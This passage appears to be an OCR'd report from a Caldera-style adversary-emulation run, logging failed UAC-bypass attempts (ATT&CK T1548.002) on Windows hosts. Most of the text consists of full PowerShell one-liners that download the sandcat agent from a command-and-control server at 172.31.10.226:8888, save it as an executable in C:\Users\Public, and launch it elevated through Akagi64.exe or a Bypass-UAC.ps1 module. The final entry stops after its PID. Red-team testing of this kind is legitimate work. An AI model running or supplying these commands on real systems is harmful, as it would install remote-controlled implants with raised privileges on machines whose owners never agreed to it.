 
###   Description: UIPI bypass with uiAccess application


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 8300

  Start: 2024-09-13T17:43:25Z

  Command: 
```powershell
$url="http://172.31.10.226:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$wc.Headers.add("server","http://172.31.10.226:8888");$wc.Headers.add("defaultSleep","60");$wc.Headers.add("defaultGroup","bypassed_u_bro");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);.\Akagi64.exe 32 "C:\Users\Public\$name.exe -server http://172.31.10.226:8888"
```


###   Description: Bypass user account controls - medium


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 5432

  Start: 2024-09-13T17:45:29Z

  Command: 
```powershell
$url="http://172.31.10.226:8888/file/download"; $wc=New-Object System.Net.WebClient; $wc.Headers.add("platform","windows"); $wc.Headers.add("file","sandcat.go"); $data=$wc.DownloadData($url); $name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"",""); [io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);$job = Start-Job -ScriptBlock { Import-Module -Name .\Bypass-UAC.ps1; Bypass-UAC -Command "C:\Users\Public\$name.exe -group red"; };Receive-Job -Job $job -Wait;
```


## Host: ACME-HH-ESO (paw: nowkww)

###   Description: Set a registry key to allow UAC bypass


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 6172
